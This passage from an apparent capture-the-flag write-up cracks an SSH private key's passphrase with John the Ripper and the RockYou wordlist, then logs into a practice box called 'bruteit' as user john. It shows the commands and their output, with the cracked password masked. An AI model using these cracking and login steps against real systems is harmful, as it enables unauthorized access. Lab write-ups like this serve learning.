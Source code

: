 Now we can run John the Ripper using the "RockYou" wordlist and see if we can crack this password:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash 
```

And sure enough, we find the password:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********       (./id_rsa.txt)     
1g 0:00:00:00 DONE (2023-08-12 21:07) 25.00g/s 1816Kp/s 1816Kc/s 1816KC/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can now use that to try to SSH in, and we get in, but immediately get kicked out!

```bash
$ ssh admin@10.10.10.10 -i ./id_rsa.txt                   

Enter passphrase for key './id_rsa.txt': 
Connection closed by 10.10.176.145 port 22
```

We try again with the username `john` from the main "Panel" page we found and we get in!

```bash
$ ssh john@10.10.10.10 -i ./id_rsa.txt

Enter passphrase for key './id_rsa.txt': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug 13 01:13:30 UTC 2023

  System load:  0.0                Processes:           109
  Usage of /:   25.8% of 19.56GB   Users logged in:     0
  Memory usage: 46%                IP address for eth0: 10.10.176.145
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
```
